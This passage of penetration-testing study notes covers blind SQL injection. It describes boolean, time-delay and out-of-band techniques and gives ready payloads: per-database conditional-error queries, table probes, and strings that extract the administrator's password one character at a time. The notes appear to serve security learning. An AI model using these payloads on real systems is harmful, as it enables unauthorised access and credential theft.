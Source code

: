 Depending on the nature of the vulnerability, the following techniques can be used to exploit blind SQLi vulnerabilities:
- You can change the logic of the query to trigger a detectable difference in the application's response depending on the truth of a single condition. This might involve injecting a new condition into some Boolean logic, or conditionally triggering an error such as a divide-by-zero.
- You can conditionally trigger a time delay in the processing of the query, allowing you to infer the truth of the condition based on the response time.
- You can trigger an out-of-band network interaction, using [OAST](https://alipali737.github.io/pen-test-docs/Knowledge/Testing/Application%20Security%20Testing%20Methods.html#out-of-band-application-security-testing-oast) techniques. Often you can directly exfiltrate data via the out-of-band channel eg. placing the data into a DNS lookup for a domain you control.

It is important to ensure that the injection is being treated as SQL and not something else, an easy way to do this is my trying to execute a simple SQL syntax (like string concatenation) and something the produced the opposite:
```sql
Oracle: 
a' || (SELECT '' FROM dual) || '
a' || (SELECT '' FROM table-doesnt-exist) || '
```

You can test a single boolean condition and trigger a database error if the condition is true.

|   |   |
|---|---|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`|
|Microsoft|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`|
|PostgreSQL|`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`|

This can then be expanded such as:
```sql
SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator'
```

You can determine if a table exists by searching for the first row in a table:
```sql
SELECT '' FROM users WHERE ROWNUM = 1
```

A nice way to determine the length of a field could be by iterating over a condition of its length:
```sql
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a'
```

For cracking the value you can repeat a similar technique by testing each letter one by 1:
```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a'
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='b'
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='c'
...
' AND (SELECT SUBSTRING(password,15,1) FROM users WHERE username='administrator')='a'
' AND (SELECT SUBSTRING(password,16,1) FROM users WHERE username='administrator')='a'
```
